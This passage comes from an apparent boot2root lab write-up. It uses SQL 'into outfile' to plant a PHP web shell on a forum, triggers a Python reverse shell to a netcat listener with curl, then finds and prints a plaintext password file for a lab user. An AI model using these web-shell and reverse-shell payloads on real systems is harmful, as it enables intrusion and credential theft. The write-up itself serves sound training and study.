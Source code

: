 ```sql
select "<?php echo 'Command: ' . $_POST['cmd'] . '\n'; system($_POST['cmd']);?>" into outfile "/var/www/forum/templates_c/backdoor.php";
```

#### Reverse shell and Listener

```sh
nc -l -vv -p 2000
```

```sh
curl "https://192.168.100.16/forum/templates_c/backdoor.php" --insecure  --data-urlencode  "cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.100.8\",2000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);' "
```

### Alternative Method to Gain Root Access
#### Note from the Subject
![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/write2pics/1.png)

Let's explore what the user has access to.

```sh
find / -user www-data -ls > www_data_access.txt
```

Let's apply some filters to the `www_data_access.txt` file.

```sh
grep home www_data_access.txt
```

```
 17389    0 drwxrwx--x   9 www-data root          126 Oct 13  2015 /home
 17392    0 drwxr-x---   2 www-data www-data       31 Oct  8  2015 /home/LOOKATME
 14402    1 -rwxr-x---   1 www-data www-data       25 Oct  8  2015 /home/LOOKATME/password
 13754    1 -rwxr-xr-x   1 www-data www-data      216 Oct  8  2015 /var/www/forum/themes/default/images/homepage.png
   532    0 drwxrwx--x   9 www-data root          126 Oct 13  2015 /rofs/home
   520    0 drwxr-x---   2 www-data www-data       31 Oct  8  2015 /rofs/home/LOOKATME
 14402    1 -rwxr-x---   1 www-data www-data       25 Oct  8  2015 /rofs/home/LOOKATME/password
 13754    1 -rwxr-xr-x   1 www-data www-data      216 Oct  8  2015 /rofs/var/www/forum/themes/default/images/homepage.png
```

Oh, that's interesting: *LOOKATME/password*

```sh
cat /home/LOOKATME/password
```

```
lmezard:G!@M6f4Eatau{sF"
```

#### FTP or SSH
